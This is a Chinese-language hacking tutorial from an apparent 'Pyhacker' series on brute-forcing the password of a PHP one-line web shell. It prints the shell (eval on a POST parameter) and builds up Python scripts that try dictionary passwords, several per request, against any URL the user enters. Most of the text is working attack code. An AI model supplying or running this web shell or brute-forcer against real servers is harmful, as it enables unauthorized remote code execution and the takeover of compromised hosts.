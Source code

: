 ## Pyhacker 之 爆破一句话木马

**00x1：**  

需要用到的模块如下：  

import requests  

**00x2：**  

首先我们了解一下一句话木马，一般post传递参数  

一个简单的php一句话木马  

```
<?php
eval($_POST['x'])
?>
```  

先测试一下连接  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/11/1.png)  

OK，没问题，我们用浏览器打开传参看一下  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/11/2.png)  

由此可以看到密码为x，变量提交能匹配上即执行echo语句  

这时我猜大家都有了思路，构造post请求即可  

**00x3：**  

这里我们可以利用网址特性提交多个参数  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/11/3.png)  

这样可以提高爆破效率  

分析完成，下面我们开始进行写脚本  

**00x4：**  

简单爆破shell密码，shell为字典  

```
#!/usr/bin/python
#-*- coding:utf-8 -*-
import requests

def req(url,s):
    global html
    data = {s:'echo xc666;'}
    req = requests.post(url,data=data)
    html = req.content

shell = ['z','y','x']
for s in shell:
    req('http://127.0.0.1/shell.php',s)
    if 'xc666' in html:
        print "[+]Find password",s
        break
```  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/11/4.png)  

**00x5：**  

下面我们按我们刚才说的，一次多个参数，增加效率  

首先整理一下字典  

```
shell = []
f = open('shell.txt','r')
for x in f.readlines(): #去除换行等字符
    x = x.strip()
    shell.append(x)
print u"shell密码个数为：",len(shell)
```  

```
for i in range(0,len(shell),2): #分割列表
    b=shell[i:i+2]
    print b
```  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/11/5.png)  

我们一次性提交两个参数测试一下  

```
data = {s:'echo %s;'%s,ss:'echo %s;'%ss}

shell = []
def shelllist():
    f = open('shell.txt','r')
    for x in f.readlines(): #去除换行等字符
        x = x.strip()
        shell.append(x)
    print u"shell密码个数为：",len(shell)
```  

```
def main():
    shelllist()
    for i in range(0,len(shell),2): #分割列表
        b=shell[i:i+2]
        req('http://127.0.0.1/shell.php',b[0],b[1])
        if b[0] in html:
            print "[+]Find password",b[0]
            break
        elif b[1] in html:
            print "[+]Find password", b[1]
            break
main()
```  

测试一下，一次执行两个密码  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/11/6.png)  

**00x6：**  

完整代码：/books/config/11.[Pyhacker]爆破一句话木马  

一次爆破5次密码，可自行调整  

```
#!/usr/bin/python
#-*- coding:utf-8 -*-
import requests

def req(url,s,ss,sss,ssss,sssss):
    global html
    data = {s:'echo xc666%s;'%s,
            ss:'echo xc666%s;'%ss,
            sss:'echo xc666%s;'%sss,
            ssss:'echo xc666%s;'%ssss,
            sssss:'echo xc666%s;'%sssss,}
    req = requests.post(url,data=data)
    html = req.content
    print req.url,s,ss,sss,ssss,sssss

shell = []
def shelllist():
    f = open('shell.txt','r')
    for x in f.readlines(): #去除换行等字符
        x = x.strip()
        shell.append(x)
    print u"\nshell密码个数为：",len(shell)

def main():
    shelllist()
    url = raw_input('\nshell url:')
    if 'http' not in url:
        url = 'http://'+url
    for i in range(0,len(shell),5): #分割列表
        b=shell[i:i+5]
        req(url,b[0],b[1],b[2],b[3],b[4])
        if "xc666%s"%b[0] in html:
            print "\n[+]Find password",b[0]
            break
        elif "xc666%s"%b[1] in html:
            print "\n[+]Find password", b[1]
            break
        elif "xc666%s"%b[2] in html:
            print "\n[+]Find password",b[2]
            break
        elif "xc666%s"%b[3] in html:
            print "\n[+]Find password", b[3]
            break
        elif "xc666%s"%b[4] in html:
            print "\n[+]Find password", b[4]
            break
if __name__ == '__main__':
    main()
```